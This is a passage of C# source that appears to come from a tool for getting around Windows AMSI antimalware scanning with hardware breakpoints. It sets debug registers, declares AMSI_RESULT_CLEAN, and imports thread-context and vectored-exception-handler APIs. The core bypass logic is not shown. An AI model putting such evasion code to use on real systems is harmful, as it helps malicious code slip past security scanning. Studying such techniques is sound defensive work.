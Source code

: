 ```
            ctx.Dr7 = SetBits(ctx.Dr7, (index * 2), 1, 1);
            ctx.Dr6 = 0;

            Marshal.StructureToPtr(ctx, pCtx, true);
        }

        public static ulong SetBits(ulong dw, int lowBit, int bits, ulong newValue)
        {
            ulong mask = (1UL << bits) - 1UL;
            dw = (dw & ~(mask << lowBit)) | (newValue << lowBit);
            return dw;
        }
    }

    public class WinAPI
    {
        public const UInt32 DBG_CONTINUE = 0x00010002;
        public const UInt32 DBG_EXCEPTION_NOT_HANDLED = 0x80010001;
        public const Int32 EXCEPTION_CONTINUE_EXECUTION = -1;
        public const Int32 EXCEPTION_CONTINUE_SEARCH = 0;
        public const Int32 CREATE_PROCESS_DEBUG_EVENT = 3;
        public const Int32 CREATE_THREAD_DEBUG_EVENT = 2;
        public const Int32 EXCEPTION_DEBUG_EVENT = 1;
        public const Int32 EXIT_PROCESS_DEBUG_EVENT = 5;
        public const Int32 EXIT_THREAD_DEBUG_EVENT = 4;
        public const Int32 LOAD_DLL_DEBUG_EVENT = 6;
        public const Int32 OUTPUT_DEBUG_STRING_EVENT = 8;
        public const Int32 RIP_EVENT = 9;
        public const Int32 UNLOAD_DLL_DEBUG_EVENT = 7;

        public const UInt32 EXCEPTION_ACCESS_VIOLATION = 0xC0000005;
        public const UInt32 EXCEPTION_BREAKPOINT = 0x80000003;
        public const UInt32 EXCEPTION_DATATYPE_MISALIGNMENT = 0x80000002;
        public const UInt32 EXCEPTION_SINGLE_STEP = 0x80000004;
        public const UInt32 EXCEPTION_ARRAY_BOUNDS_EXCEEDED = 0xC000008C;
        public const UInt32 EXCEPTION_INT_DIVIDE_BY_ZERO = 0xC0000094;
        public const UInt32 DBG_CONTROL_C = 0x40010006;
        public const UInt32 DEBUG_PROCESS = 0x00000001;
        public const UInt32 CREATE_SUSPENDED = 0x00000004;
        public const UInt32 CREATE_NEW_CONSOLE = 0x00000010;

        public const Int32 AMSI_RESULT_CLEAN = 0;

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern bool SetThreadContext(IntPtr hThread, IntPtr lpContext);

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern bool GetThreadContext(IntPtr hThread, IntPtr lpContext);

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32", SetLastError = true, CharSet = CharSet.Ansi)]
        public static extern IntPtr LoadLibrary([MarshalAs(UnmanagedType.LPStr)] string lpFileName);

        [DllImport("Kernel32.dll")]
        public static extern IntPtr AddVectoredExceptionHandler(uint First, IntPtr Handler);

        [Flags]
        public enum CONTEXT64_FLAGS : uint
        {
            CONTEXT64_AMD64 = 0x100000,
```